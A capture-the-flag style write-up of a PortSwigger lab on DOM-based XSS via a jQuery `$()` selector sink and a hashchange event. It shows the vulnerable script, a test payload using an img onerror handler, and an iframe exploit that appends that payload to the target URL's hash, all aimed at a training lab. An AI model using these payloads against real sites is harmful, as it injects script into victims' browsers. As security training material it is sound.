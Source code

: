 # DOM XSS in jQuery selector sink using a hashchange event

## This lab contains a [DOM-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based) vulnerability on the home page. It uses jQuery's `$()` selector function to auto-scroll to a given post, whose title is passed via the `location.hash` property.

## To solve the lab, deliver an exploit to the victim that calls the `print()` function in their browser.

---

### step 1

open lab
view page source

look for jquery code

```javascript
<script>

$(window).on('hashchange', function(){

var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');

if (post) post.get(0).scrollIntoView();

});

</script>
```

![screenshot](images/lab6_hash_value.jpg)

![screenshot](images/lab6_hash_with_post_name.jpg)

test with
`#<img src=1 onerror=alert(1)>`

![screenshot](images/lab6_hash_with_image_pageload.jpg)

### step2

to solve this lab
you need to use iframe

```javascript
<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">
```

change src url with lab url and change alert(1) with print()

```javascript
<iframe src="https://0a1000e504e13d8fc22843dd00560027.web-security-academy.net/#" onload="this.src+='<img src=1 onerror=print()>'">
```

put inside exploit page and submit

![screenshot](images/lab6_exploit_payload.jpg)
